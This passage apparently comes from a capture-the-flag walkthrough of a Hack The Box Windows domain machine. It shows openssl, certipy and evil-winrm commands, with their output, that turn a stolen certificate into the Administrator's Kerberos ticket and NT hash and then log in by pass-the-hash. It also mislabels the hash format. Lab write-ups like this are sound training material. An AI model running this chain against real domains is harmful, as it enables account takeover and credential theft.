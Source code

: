 ```ruby
        dNLmzbvnbJrPrgcioOs9mq/djzCCLvdHc/xVDBXT3UoV2D18kBoAtAxZFfoi6pnk
        hkcasSLBK62DNoOcHICHWARL5xDHBlLEU7IZYTUHQ/CJyQuct1Ls77SiIPFLnsnJ
        qcL6hl8D+qkTJnEE5tpAxdPcfRfbGlL3ZV17I0WXAlyxA5aiUEIhr1/x666veSnx
        T7kguW/x/mghBIWSLW9f2fNcXPy+2LKsRYjx3cXUhgschWZPqHmqLNTKJO0RZVBR
        ZsF/5Cs8
        -----END CERTIFICATE-----
```
####
The **perm** file is not generated in the target machine so we need to copy both things, the key and the certificate, and paste in one file with the exactly format that you can see in the previous output. The file will have a `.pem` extention for after create a `.pfx` file. To do this we will use a **openssl**.
####
```ruby
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx -passout pass:
```
####
- ###### Openssl Param
    - `pkcs12` Specifies the **PKCS#12** tool for creating `.pfx` or `.p12` files (used for storing certificates and private keys) 
    - `-in` Path of the file 
    - `-keyex` Sets the key exchange attribute (used for legacy compatibility, mainly with Microsoft CSPs) 
    - `-export` Tells OpenSSL to create a new **PKCS#12** file 
    - `-out cert.pfx` Output file name for the resulting **PKCS#12** `.pfx` file 
    - `-passout pass:` Set a empty or null password 
####
Finally using that *PFX* file we can to get a TGT hash of the **Administrator** user:
####
```ruby
faketime "2025-05-06 15:44:55" certipy auth -pfx cert.pfx -dc-ip 10.10.11.51 -domain sequel.htb
    Result ->
        [*] Using principal: administrator@sequel.htb
        [*] Trying to get TGT...
        [*] Got TGT
        [*] Saved credential cache to 'administrator.ccache'
        [*] Trying to retrieve NT hash for 'administrator'
        [*] Got hash for 'administrator@sequel.htb': aad3b435b51404eeaad3b435b51404ee:7a8d4e04986afa8ed4060f75e5a0b3ff
```
####
The format of the hash is **salt:hash**, so we can use it in evil-winrm: `evil-winrm -i 10.10.11.51 -u administrator -H 7a8d4e04986afa8ed4060f75e5a0b3ff`.
####
- ###### Evil-winrm Param
    - `-i` Specify the ip target host 
    - `-u` Specify the user 
    - `-p` Specify the password